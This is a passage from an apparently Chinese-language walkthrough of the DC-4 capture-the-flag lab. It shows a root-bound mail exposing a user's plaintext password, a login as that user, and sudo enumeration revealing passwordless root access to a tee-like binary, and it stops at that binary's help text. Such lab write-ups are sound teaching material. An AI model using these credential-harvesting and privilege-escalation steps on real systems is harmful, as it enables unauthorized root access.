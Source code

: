         This is a test.
        ```
        
        是一封来自`root`的文件，跟着邮件这个线索，我们去翻邮件`/var/mail` 存在一封`jim`的邮件
        
        ```python
        From charles@dc-4 Sat Apr 06 21:15:46 2019
        Return-path: <charles@dc-4>
        Envelope-to: jim@dc-4
        Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
        Received: from charles by dc-4 with local (Exim 4.89)
                (envelope-from <charles@dc-4>)
                id 1hCjIX-0000kO-Qt
                for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
        To: jim@dc-4
        Subject: Holidays
        MIME-Version: 1.0
        Content-Type: text/plain; charset="UTF-8"
        Content-Transfer-Encoding: 8bit
        Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
        From: Charles <charles@dc-4>
        Date: Sat, 06 Apr 2019 21:15:45 +1000
        Status: O
        
        Hi Jim,
        
        I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.
        
        Password is:  ^xHhA&hvim0y
        
        See ya,
        Charles
        ```
        
        告诉我们`Charles`的密码是`^xHhA&hvim0y`
        
7. 登录`charles`用户，查看权限
    
    ```python
    charles@dc-4:~$ sudo -l
    Matching Defaults entries for charles on dc-4:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User charles may run the following commands on dc-4:
        (root) NOPASSWD: /usr/bin/teehee
    ```
    
    存在有sudo权限的`teehee` 命令
    
    ```python
    charles@dc-4:/usr/bin$ sudo teehee --help
    Usage: teehee [OPTION]... [FILE]...
    Copy standard input to each FILE, and also to standard output.
    
      -a, --append              append to the given FILEs, do not overwrite
      -i, --ignore-interrupts   ignore interrupt signals
      -p                        diagnose errors writing to non pipes
          --output-error[=MODE]   set behavior on write error.  See MODE below
          --help     display this help and exit
          --version  output version information and exit
    
